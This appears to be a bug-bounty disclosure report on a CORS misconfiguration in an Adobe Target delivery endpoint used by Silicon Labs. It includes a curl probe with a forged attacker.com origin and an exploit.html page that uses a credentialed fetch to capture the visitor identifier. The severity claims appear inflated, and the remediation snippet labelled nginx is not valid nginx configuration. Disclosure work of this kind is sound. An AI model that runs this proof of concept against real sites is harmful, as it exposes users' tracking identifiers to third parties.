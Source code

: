 
**Subject**: [Critical] CWE-942: CORS Misconfig in Adobe Target API (Silabs Integration)  
**Severity**: CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:H/VI:H/VA:H/SC:H/SI:H/SA:H = **9.1**  
**Researcher**: [Your Name/HackerOne ID]  
**Disclosure**: Full after 90 days per policy  


---


### Vulnerability Details  
**Affected Endpoint**:  
POST https://siliconlabs.tt.omtrdc.net/rest/v1/delivery  

> **Note**: Although the vulnerable domain is hosted under `tt.omtrdc.net` (Adobe-owned), the integration directly affects Silabs (`https://www.silabs.com`) users. The endpoint is used within the Silabs frontend for visitor tracking, meaning this vulnerability falls within Silabs' user attack surface.

**Vulnerability**:  
- Reflects attacker-controlled `Origin` header  
- Returns `Access-Control-Allow-Credentials: true`  
- Exposes `marketingCloudVisitorId` (persistent user identifier)  


---


### Severity Justification

- No authentication required (PR:N)  
- Sensitive data exposed: `marketingCloudVisitorId` is persistent across sessions and devices  
- Misconfigured CORS enables exfiltration of authenticated data via cross-site scripting  
- Cross-origin calls with `credentials: include` leak session context  
- Enables tracking, behavioral fingerprinting, or chaining into further attacks

→ **Meets criteria for Critical (CWE-942)**


---


### Proof of Concept  


```bash
# Step 1: Verify CORS misconfiguration
curl -H "Origin: https://attacker.com" -I \
https://siliconlabs.tt.omtrdc.net/rest/v1/delivery

# Expected response:
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: true
```

---


### Step 2: Reproduce Data Theft

```html
<!-- exploit.html -->
<!DOCTYPE html>
<html>
  <body>
    <p id="output">Loading...</p>
    <script>
      fetch('https://siliconlabs.tt.omtrdc.net/rest/v1/delivery?client=siliconlabs&version=2.11.7', {
        method: 'POST',
        credentials: 'include',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({})
      })
      .then(r => r.json())
      .then(data => {
        console.log("STOLEN DATA:", data);
        document.getElementById("output").innerText = JSON.stringify(data);
      });
    </script>
  </body>
</html>
```

---


### Full Reproduction Steps

1. Login to `https://www.silabs.com` (must have a tracking session active)  
2. Host `exploit.html` on any domain (e.g. `attacker.com`)  
3. Visit that malicious page → Observe data leakage in DOM or DevTools  

---


### Evidence Attachments

1. `exploit.html`: Self-contained PoC  
2. `curl-output.txt`: Full CORS verification output  
3. `session-data.json`: Redacted sample response  


```json
{
  "status": 200,
  "id": {
    "marketingCloudVisitorId": "REDACTED"
  }
}
```

---


### Potential Impact

- A malicious site visited by a logged-in user can silently exfiltrate Adobe session IDs or tracking identifiers  
- These identifiers persist across sessions, enabling long-term profiling, behavioral analytics abuse, or campaign hijacking  
- Can be chained with additional Adobe or Silabs API endpoints for deeper session compromise  


---


### Compliance Impact

Exposure of `marketingCloudVisitorId` violates:

- **GDPR Articles 5(1)f and 32** (data integrity & confidentiality)  
- **CCPA § 1798.150** (unauthorized access to personal data)  


---


### Remediation

#### Immediate Action

Update Adobe Target-side CORS policy:


```nginx
# Restrictive CORS
allowedOrigins = ["https://www.silabs.com"]
allowCredentials = false
```


#### Validation Command


```bash
curl -H "Origin: https://attacker.com" -I \
https://siliconlabs.tt.omtrdc.net/rest/v1/delivery
# Expected: 403 or no ACAO header
```

